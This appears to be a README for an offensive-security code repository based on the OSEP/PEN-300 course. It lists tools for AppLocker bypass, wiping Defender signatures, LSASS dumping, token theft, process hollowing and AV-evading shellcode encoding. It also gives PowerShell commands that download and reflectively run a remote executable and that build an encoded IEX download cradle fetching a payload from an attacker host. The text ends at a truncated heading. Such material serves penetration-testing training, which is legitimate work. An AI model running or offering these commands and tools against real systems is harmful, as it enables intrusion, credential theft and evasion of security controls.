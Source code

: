 # OSEP Code Snippets
Code examples are provided as-is, without any form of warranty. Based on Offensive Security's [PEN-300](https://www.offensive-security.com/pen300-osep/) course.

Classes and methods are public, so most binaries should allow for reflective loading as below.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```

### Contents
|Snippet Name|Description|
|--|--|
| AppLocker Bypass PowerShell Runspace (C#) | Base binary for an applocker bypass using a combination of `CertUtil`, `BitsAdmin`, and `InstallUtil`. See `README.md` for details.|
| Fileless Lateral Movement (C#) | Wipes Windows Defender signatures on the remote host and uses a PSExec-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`. |
|Linux Shellcode Encoder (Python) | Utility scripts to encode C# payloads from Linux, either ingesting a raw shellcode payload (.bin), or automatically feeding from 'msfvenom'. Supports XOR and ROT encoding with an arbitrary key, and prints the decoding function. Can be used to replace the C# ROT/XOR encoder scripts.|
|Linux Shellcode Loaders (C) |Various C-based shellcode loaders, including base binaries for library hijacking.|
|MiniDump (C# & PS1) |A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as native PowerShell script.|
|MSSQL (C#)|An example binary that includes a variety of discussed MSSQL interactions. Change the code to include only what you need.|
|PrintSpoofer.NET (C#)|Steals the token of the incoming authentication forced with the [PrintSpooler exploit](https://github.com/leechristensen/SpoolSample), and use that token to run a given binary. Modified to not require an interactive logon session. Takes arguments for the pipe name and binary to run.|
|ROT Shellcode Encoder (C#)|A simple binary to apply state-of-the-art ROT encoding to obfuscate the shellcode. It takes an argument for the number of rotations.|
|Sections Shellcode Process Injector (C#)|Injects and runs shellcode using `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfsection` and `NtClose` instead of the "standard" method.|
|Shellcode Process Hollowing (C#)|Hollows a `svchost` process and runs the shellcode from there. Scores 0/68 on VirusTotal at the time of writing.|
|Shellcode Process Injector (C# & PS1) | Simple shellcode runner that applies process injection. Accepts an argument for the process to inject into. If no argument is given, it attempts to pick a suitable process based on privilege level. Also provided as native PowerShell script (though it is a bit simpler).|
|Simple Shellcode Runner (C# & PS1 & VBA)|The simplest of shellcode runners. Also provided as native PowerShell and VBA scripts.|
|XOR Shellcode Encoder (C#)|A simple binary to apply state-of-the-art XOR encoding to obfuscate the shellcode.|

# OSEP REFERENCE GUIDE 
## Common Commands
### Encode PowerShell payload

-  On Windows:
```powershell
[system.convert]::tobase64string([system.text.encoding]::unicode.getbytes('IEX ((new-object net.webclient).downloadstring("http://192.168.x.y/runner.txt"))'))
```
- On Linux:
```bash
echo -en 'IEX ((new-object net.webclient).downloadstring("http://192.168.x.y/runner.txt"))' | iconv -t UTF-16LE | base64 -w 0
```
### Save a ticket to file

